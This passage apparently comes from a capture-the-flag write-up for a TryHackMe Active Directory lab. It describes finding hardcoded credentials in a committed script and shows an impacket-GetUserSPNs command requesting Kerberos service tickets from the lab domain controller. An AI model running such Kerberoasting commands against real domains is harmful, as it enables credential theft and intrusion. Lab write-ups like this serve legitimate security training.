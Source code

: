 Whoops! Looks like Nik hardcoded his credentials when his first committed the script.


Looking back at our kerbrute findings we can confirm that Nik is a valid user on the domain:

![kerb.png](../assets/enterprise_assets/kerb.png)

Armed with these credentials lets use Impacket-GetUserSPNS:

```text
┌──(ryan㉿kali)-[~/THM/Enterprise]
└─$ impacket-GetUserSPNs -dc-ip 10.10.118.162 -request LAB.ENTERPRISE.THM/nik
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Password:
```

![spn.png](../assets/enterprise_assets/spn.png)
